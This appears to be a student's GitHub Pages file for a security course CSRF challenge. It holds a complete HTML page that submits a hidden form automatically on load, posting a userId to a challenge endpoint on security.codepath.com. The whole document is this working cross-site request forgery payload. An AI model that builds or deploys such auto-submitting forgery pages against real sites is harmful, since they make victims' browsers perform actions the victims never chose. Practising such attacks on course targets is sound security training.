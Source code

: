 # JLPlummer79.github.io
<html>
  <body onload="document.csrfform.submit()">
    <form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="4%2035bd071b9044ab94ff284904c1016e36ccfdb330"/>
      <input type="submit"/>
    </form>
    <iframe name="hidden_results" style="display: none;">  </iframe>
  </body>
</html>
